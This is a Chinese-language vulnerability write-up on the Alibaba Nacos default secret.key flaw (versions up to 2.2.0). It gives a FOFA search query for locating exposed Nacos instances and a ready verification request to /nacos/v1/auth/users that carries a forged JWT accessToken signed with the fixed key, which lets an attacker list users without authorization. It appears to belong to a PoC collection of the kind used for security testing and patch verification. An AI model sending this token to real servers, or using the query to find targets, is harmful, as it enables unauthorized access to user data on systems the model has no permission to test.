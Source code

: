 # 

# Alibaba Nacos secret.key默认密钥 未授权访问漏洞

## 漏洞描述

Alibaba Nacos 使用了固定的secret.key默认密钥，导致攻击者可以构造请求获取敏感信息，导致未授权访问漏洞

## 漏洞影响

```
Alibaba Nacos <= 2.2.0
```

## 网络测绘

```
app="NACOS"
```

## 漏洞复现

登陆页面

![image-20230417093555107](images/image-20230417093555107.png)

漏洞原因是使用了固定的Key

![image-20230417093624167](images/image-20230417093624167.png)

验证POC

```
/nacos/v1/auth/users?accessToken=eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY5ODg5NDcyN30.feetKmWoPnMkAebjkNnyuKo6c21_hzTgu0dfNqbdpZQ&pageNo=1&pageSize=9
```

![image-20230417093649928](images/image-20230417093649928.png)
